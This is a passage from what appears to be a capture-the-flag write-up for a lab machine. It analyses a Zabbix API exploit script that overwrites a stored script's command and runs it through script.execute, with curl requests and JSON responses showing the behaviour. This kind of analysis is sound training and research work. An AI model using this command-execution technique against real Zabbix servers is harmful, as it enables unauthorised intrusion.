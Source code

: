             cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))
    

So what happens if cmd is the empty string? I can use `curl` to check:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0","method":"script.update","id":1,"auth":"e53de718bf70398f6e26c8cafbc246c6","params
    ":{"scriptid":"1", "command":""}}' | jq .
    {
      "jsonrpc": "2.0",
      "error": {
        "code": -32602,
        "message": "Invalid params.",
        "data": "Script command cannot be empty."
      },
      "id": 1
    }
    

So the script remains unchanged. That’s why the message prints saying that it
will run the last command.

Finally, there’s an API call to run the script using script.execute:

    
    
    ### execute
            payload = {
                    "jsonrpc": "2.0",
                    "method": "script.execute",
                    "params": {
                        "scriptid": "1",
                        "hostid": ""+hostid+""
                    },
                    "auth" : auth['result'],
                    "id" : 0,
            }
    
            cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
            cmd_exe = cmd_exe.json()
            print cmd_exe["result"]["value"]
    

### Why Zabbix and Not Zipper

So that leads to the question - why did this run on Zabbix? I gave it the
hostid for Zipper. It has to do with the `execute_on` parameter, which this
script makes no changes to.

As the script updates scriptid 1, I’ll look at those details (using `jq` to
select just that script):

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.get", "id":1, "auth":"e53de718bf70398f6e26c8cafbc246c6", "params":{}}' | jq '.result | .[] | select(.scriptid == "1")'
    {
      "scriptid": "1",
      "name": "Ping",
      "command": "hostname",
      "host_access": "2",
      "usrgrpid": "0",
      "groupid": "0",
      "description": "",
      "confirmation": "",
      "type": "0",
      "execute_on": "1"